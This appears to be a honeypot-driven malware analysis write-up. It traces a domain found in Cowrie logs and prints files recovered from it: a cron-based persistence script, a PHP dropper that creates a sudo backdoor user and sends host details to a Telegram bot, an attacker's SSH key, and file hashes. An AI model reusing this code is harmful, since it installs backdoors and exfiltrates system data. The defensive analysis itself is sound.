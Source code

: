 ### The story
I was looking at my honey pot logs using the following command.<br>
<br>
`cat cowrie.json* | jq '. | select(.eventid | contains("cowrie.session.file_download")) | .url' | grep -v "null" | sort | uniq -c | sort -bgr | head -n 10`<br>


The command scrapes the log files and displays the top 10 URLS that were used to download files. 

Usually the top 10 contains IP's not domains. The last result caught my eye because it contained the domain name: http://chairfiller[.]org/smtp.

The first thing I did was use  the tool, Dirseach on the domain. This tool uses a list of popular file names and will check to see
if the file exists. 

<img src="https://i.imgur.com/aq4XhPX.png" alt="chairfiller[.]org dirsearch" width="200" height="250">


The Figure above shows the files and directories that were found by the tool. 
<ul>
  <li>/authorized_keys</li>
  <li>/a</li>
  <li>/echo</li>
  <li>/f</li>
  <li>/archive.zip</li>
  <li>/perl</li>
  <li>/phptest.php</li>
  <li>/setup</li>
  <li>/test</li>
</ul>  

The list above shows some of the more intresting files.<br><br><br>
<img src="https://i.imgur.com/cZDgh63.png" alt="chairfiller[.]org/a" width="175" height="200"><br>
The Figure above shows that when you visit `chairfiller[.]org/a` the visitor is shown the file system where there is a hidden directory named .b. 

<img src="https://i.imgur.com/gMnIksc.png" alt="chairfiller[.]org/a/.b" width="175" height="200">
<br>
The Figure above shows the contents of the `chairfiller[.]org/a/.b/` directory. The contents of the directory contains files for windows and linux based operating systems. 

One of the files in the directory is a file named autorun. 

```bash
#!/bin/sh
pwd > dir
dir=$(cat dir)
echo "* * * * * $dir/update >/dev/null 2>&1" > cron
crontab cron
crontab -l | grep update
echo "#!/bin/sh
if test -r $dir/pid; then
pid=\$(cat $dir/pid)
if \$(kill -CHLD \$pid >/dev/null 2>&1)
then
exit 0
fi
fi
cd $dir
./run &>/dev/null" > update
chmod u+x update

```
The Figure above shows the contents of the file located at `http://chairfiller.org/a/.b/autorun`.

The autorun Figure shown above is a Bash script. The first thing the script does create a new that will contain the machine's home directory file path. This file is named dir. Next the script creates a variable named dir. Whe $dir is called the script will use the cat command to read the contents of the dir file. After that variable is created the script will use the echo command to create a new cron job that will use the $dir variable created earlier to get the machines home path. The next line is where the script will add the cron to the crontab. 

The script use the the command `crontab -l` to list the machines cronjob.The script will also use the `grep` command to look for cronjobs that contain the string "update".



### echo
The script, echo can be found at `http://chairfiller[.]org/echo`. The scrip in written in PHP and uses the Telegram API to send data to the attackers. 
```php
<?php exec('useradd mails; echo "mails:badguys" | chpasswd; sudo adduser mails udo'); $sys = php_uname(); $lihat = system('curl ipecho.net/plain'); $corenya =system('nproc');$response = file_get_contents("https://api.telegram.org/bot165187481:AAFwnMlabSDcSfMe474hAEZht9sHdrCip2Y/sendMessage?chat_id=-463422282&text=Sfu vine : -> IP : ".$lihat." -> Core : ".$corenya." -> User : mails -> Pass : bdguys -> Uname : ".$sys); ?>
```
<br>
The snippet above shows the contents of echo. The first thing the PHP script does is add a new user named `mails` to the system. Next it uses echo to add the password `badguys` to the password file. The script uses the `chpasswd` command to change the password. The last thing it does to the user mails is give it sudo permissions. But I think they forget  the s on the sudo. 

Next the PHP code creates a variable named `$sys`. The variable uses PHP's `php_name()` method to return information about the system. The `lihat` variable uses PHP's system method to use curl to visit `ipecho.net/plain` which will return the IP address of the server. The next variable run the `nproc` command which will return the number of processing units that the system contains. 

The next part of the script contains the part where the attacker uses Telegram to send inforamtion about the infected computer to a certain Telegram channel.  

### Authorized_keys
```txt
ssh-rsa AAAAB3NzaC1yc2EAAAABJQAAAQEAm4OL3t9/CKCXnaS1FqMqVBZtIctaDGfNTwkBypjk7LskJYRJn+y+dykldCNGmtRuNBCsBpzVIvY69ap4AX2h02FBhhngnOZl/P7so4JNo0EBVdeb8tps7fJryXFvbSFv5J+9OlbXa35aKQFPE1G4rQ7KM9cnUXnRtsZz/TPRwx7HRBPlM0FajN48djc2yQaHPtzustZ4YC6NMuadaZZlRMf5+HF6lpdHdsMmLuSlYBigRc1yI9OSlpFSQMxpqyCTiiPO8jOuoARu8ZT5cWzWcjce1oJ7t8IlklCPMnwtjFLdNCQsthXQU86s+5iey0Yons4WC5RW/zaDKStdGvq0qw== rsa-key-20141006
```

<br>
### IOC
<ul>
  <li>e4eda70e5c4daccdffb71ff79e4877bd57f81f80  echo</li>
  <li>a8ab84485735cec4e44c2f6db03d6f57c8533b4c  archive.zip</li>
  <li>24d99819577424c9b7eda952017988d119683c95  perl</li>
  <li>e417ab727cf42a1dcc180bb03fb05e1ecdcdb523  authorized_keys</li>
  <li>31794942f3fd3ce51ac2505ea7825e56f8848a70  setup</li>
  <li>b45ae5d8d3069ee7f880dd461c931fa711b6ad3d  f</li>
</ul>
